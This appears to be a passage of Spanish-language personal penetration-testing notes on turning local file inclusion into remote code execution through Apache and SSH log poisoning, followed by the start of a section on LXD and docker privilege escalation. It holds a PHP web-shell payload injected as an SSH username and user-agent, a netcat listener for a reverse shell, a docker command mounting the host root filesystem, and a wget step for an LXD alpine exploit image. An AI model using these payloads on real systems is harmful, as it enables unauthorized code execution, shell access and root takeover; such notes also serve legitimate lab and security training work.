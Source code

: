 _Desde \&lt;_[_https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi-to-rce-via-procfd_](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi-to-rce-via-procfd)_\&gt;_

git clone [https://github.com/D35m0nd142/LFISuite.git](https://github.com/D35m0nd142/LFISuite.git)

_Desde \&lt;_[_https://www.hackingarticles.in/comprehensive-guide-to-local-file-inclusion/_](https://www.hackingarticles.in/comprehensive-guide-to-local-file-inclusion/)_\&gt;_



/var/log/httpd-access.log

/var/log/apache2/access.log

/var/log/auth.log --\&gt; ssh &#39;\&lt;?php system($\_GET[&#39;c&#39;]); ?\&gt;&#39;@192.168.1.129

_Desde \&lt;_[_https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/_](https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/)_\&gt;_

_Desde \&lt;_[_https://www.hackingarticles.in/apache-log-poisoning-through-lfi/_](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/)_\&gt;_

![](RackMultipart20210412-4-pcx9xb_html_1148c083a6cb92a8.png)

se podrá hacer una carga, de página editando el user-agent de tal forma que cuando se cargue nuevamente el log, ejecute un script

ejemplo

\&lt;?php system($\_GET[&#39;c&#39;]); ?\&gt;

tras eso, ya podemos levantar nuestro nc -lnvp 1234

y ejecutar un revershell



# Lxd attack

lunes, 22 de junio de 2020

12:53

## Nota:

Probar este escape de shell en docker

docker run -v /:[/mnt](tg://bot_command?command=mnt) --rm -it alpine chroot [/mnt](tg://bot_command?command=mnt) sh

--------------------------------------------------

## Método 1

En nuestra máquina:

wget [https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine](https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine)
mkdir -p /root/rootfs/usr/share/alpine-mirrors/
